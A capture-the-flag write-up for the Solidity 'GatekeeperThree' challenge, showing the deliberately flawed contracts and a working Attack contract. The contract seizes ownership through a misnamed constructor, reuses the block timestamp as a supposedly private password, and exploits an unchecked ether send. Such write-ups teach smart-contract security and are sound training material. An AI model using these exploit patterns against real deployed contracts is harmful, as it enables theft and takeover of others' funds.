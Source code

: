 ## Challenge
~~~
Cope with gates and become an entrant.

##### Things that might help:

- Recall return values of low-level functions.
- Be attentive with semantic.
- Refresh how storage works in Ethereum.
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```
`

## Solution

gateOne:
 - wrong constructor -> become owner
 - EOA -> owner contract  -> Gatekeeper
gateTwo:
 - in the same transaction create SimpleTrick and execute checkPassword with the current block.timestamp
gateThree
- we need to send >0.001 ether to the Gatekeeper contract and at the same time to not have receive or fallback to accept funds 
  
```
contract Attack {
    GatekeeperThree gk;

    constructor() payable {

    }

    function attack(GatekeeperThree target) external {
        gk = target;
        becomeOwner();
        allowEntrance();
        sendEther();
        gk.enter();
    }

    function becomeOwner() private {
        gk.construct0r();
    }

    function allowEntrance() private {
        gk.createTrick();
        gk.getAllowance(uint256(block.timestamp));
    }

    function sendEther() private {
        (bool ok,) = address(gk).call{value: 0.00101 ether}("");
        require(ok, "sending ether failed");
    }
}
```


## Key takeaways and useful resources



